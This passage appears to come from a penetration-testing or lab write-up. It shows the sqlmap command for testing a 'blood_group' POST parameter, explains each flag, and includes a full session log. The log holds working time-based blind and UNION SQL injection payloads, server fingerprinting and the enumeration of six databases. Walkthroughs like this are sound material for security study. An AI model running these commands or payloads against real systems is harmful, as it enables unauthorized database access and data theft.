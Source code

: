 `sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`
	 `-r` to read the file;
	 `-p` to supply the vulnerable parameter; 
	 `--dbs` to enumerate the database.

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group --dbs    #!!!!
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```
